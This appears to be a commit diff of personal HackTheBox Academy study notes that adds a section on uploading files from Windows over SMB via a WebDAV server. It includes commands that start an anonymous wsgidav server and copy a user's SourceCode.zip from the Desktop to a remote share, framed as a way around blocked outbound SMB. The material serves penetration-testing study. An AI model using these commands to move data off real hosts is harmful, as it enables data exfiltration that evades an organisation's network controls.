

Before and after one commit to datboyblu3/HackTheBox_Studies, a Markdown page: HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md, the part around the change. Shown at 97% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
SMB Uploads

````diff
--- a/HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md
+++ b/HTB-Academy/6-File-Transfers/Windows File Transfers Methods.md
@@ -228,3 +228,37 @@ Now decrypt the file
 ```
 echo <base64> | base64 -d -w 0 > hosts
 ```
+
+### SMB Uploads
+
+- Use WebDav alternative to run SMB over HTTP/HTTPS.
+- You would use this if your org doesn't allow outbound SMB connections
+- The WebDAV protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring
+- When you use SMB, it will first attempt to connect using the SMB protocol, and if there's no SMB share available, it will try to connect using HTTP
+
+**Configuring the WebDav Server**
+
+**Install two python modules: wsgidav and cheroot**
+```
+sudo pip install wsgidav cheroot
+```
+
+**Using the WebDav Python module**
+```
+sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
+```
+
+**Connecting to the WebDav Share**
+```
+dir \\192.168.49.128\DavWWWRoot
+```
+**NOTE:** *DavWWWRoot* is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server.
+
+**Uploading Files using SMB**
+```
+copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
+```
+```
+copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
+```
+**NOTE:** If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations
````
